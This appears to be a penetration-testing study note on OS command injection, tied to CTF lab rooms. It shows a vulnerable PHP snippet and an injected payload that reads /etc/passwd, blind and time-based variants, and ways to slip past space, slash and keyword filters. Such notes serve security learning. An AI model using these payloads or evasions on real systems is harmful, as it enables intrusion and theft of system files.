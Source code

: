 # Command injection

[Go back](../../index.md)

[![oscommandinjection](../../../../_badges/thmp/oscommandinjection.svg)](https://tryhackme.com/room/oscommandinjection)
[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![command_injection](../../../../_badges/poat/command_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
[![picklerick](../../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![ignite](../../../../_badges/thm-p/ignite.svg)](https://tryhackme.com/room/ignite)
[![commandinjections](../../../../_badges/htb/commandinjections.svg)](https://academy.hackthebox.com/course/preview/command-injections)

<div class="row row-cols-md-2"><div>

A command injection occurs when a developer uses the user input in system commands without proper sanitization/measures.

For instance, a PHP website on Linux might use `grep`, `sed`, or other utilities instead of PHP functions for some operations:

```php!
$search = $_GET['q'];
$res = system("grep \"$search\" content/");
echo "<pre>$res</pre>";
```

With the following payload for `q`: `" -V; cat /etc/passwd #`, the command executed will be as follows, allowing us to steal /etc/passwd

```bash!
grep "" -V; cat /etc/passwd # content/
```
</div><div>

There are two kinds of command injections

* **Regular/in-band**: same channel to attack and gather results
* **Blind/out-band**: different channels to attack and gather results
    * Using redirections/flags, create a URL-accessible output file

```bash!
[...] cat /etc/passwd > /var/www/html/output.txt [...]
```

<ul>

* Using commands such as `sleep` to perform a time-based attack

</ul>

```bash!
[...] true && sleep 5 [...]
```
</div></div>

<hr class="sep-both">

## Bypass filters

<div class="row row-cols-lg-2"><div>

#### Character Filtering 

By-pass **space** character filtering.

* Try using tabs (`%09`)
* Try using variables (`${IFS}`)
* Try using brace expansion (`{ls,-la}`) (Bash)
* ...

By-pass **slash** character filtering.

* Try using variables (`${PATH:0:1}`)
* Try using variables (`${HOME:0:1}`)
* Try using variables (`${PWD:0:1}`) -- best
* Try using brace expansion (`{ls,-la}`) (Bash)
* ...

➡️ See also: `printenv` or `env` to list exploitable variables.
</div><div>

#### Command Filtering

Put pair of quotes/double quotes anywhere within the command

```ps
# available on Linux, Windows (PowerShell)
$ w'ho'ami ; w""hoam''i
```

* Put `\\` or `$@` anywhere within the command

```ps
# available on Linux
$ w\ho\am\i ; who$@ami
```

* Put `^` anywhere within the command

```ps
# available on Windows (CMD)
CMD> who^am^i
```

* Reverse commands

```ps
$ $(rev<<<'imaohw')
PS> iex "$('imaohw'[-1..-20] -join '')"
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Windows Slash (`$env:HOMEPATH[0]`)
* WAFs
</div><div>
</div></div>
